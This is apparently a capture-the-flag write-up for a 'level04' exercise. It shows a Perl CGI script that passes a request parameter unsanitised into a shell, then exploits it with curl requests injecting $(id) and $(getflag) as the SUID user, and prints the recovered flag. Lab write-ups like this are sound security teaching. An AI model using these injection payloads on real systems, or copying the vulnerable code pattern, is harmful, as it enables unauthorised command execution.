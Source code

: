 We have a Perl script:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

\- This script takes the first argument x and executes echo *ARG* 2>&1

\- We can see that the SUID bit is set.

\- Let's try to inject a malicious command into the CGI script to access the flag04 

Let's try this:
  \- The script will be executed as flag04 thanks to the SUID bit set.
  \- The argument $(id) will be evaluated / executed.
```bash
> curl http://localhost:4747/level04.pl?x=%24%28id%29

uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)

%24%28id%29 => $(id)
```

Let's do the same thing with the command getflag :
```bash
> curl http://localhost:4747/level04.pl?x=%24%28getflag%29
ne2searoevaevoem4ov4ar8ap
```

*ne2searoevaevoem4ov4ar8ap*


